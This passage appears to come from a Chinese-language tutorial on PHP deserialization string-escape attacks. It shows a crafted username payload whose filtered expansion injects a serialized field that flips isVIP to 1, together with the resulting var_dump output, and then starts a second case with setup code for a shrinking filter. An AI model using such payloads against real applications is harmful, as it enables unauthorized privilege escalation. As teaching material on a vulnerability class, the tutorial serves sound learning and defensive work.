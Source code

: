 ```php
$a = new user('adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}','123456');
$a_seri = serialize($a);
$a_seri_filter = filter($a_seri);
$a_seri_filter_unseri = unserialize($a_seri_filter);

var_dump($a_seri_filter_unseri);
?>
```

```
输出结果：
object(user)#2 (3) {
  ["username"]=>
  string(282) "hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker"
  ["password"]=>
  string(6) "123456"
  ["isVIP"]=>
  int(1)
}
```

##### 字符串较少实例

目标：将isVIP变量的值修改为1

增加对admin字符进行替换的函数，将admin替换为hack

```php
<?php
class user
{
	public $username;
	public $password;
	public $isVIP;

	public function __construct($u,$p)
	{
		$this->username = $u;
		$this->password = $p;
		$this->isVIP = 0;
	}
}

function filter($s)
{
	return str_replace("admin","hack",$s);
}

$a = new user('admin','123456');
$a_seri = serialize($a);
$a_seri_filter = filter($a_seri);

echo $a_seri_filter;
?>
```
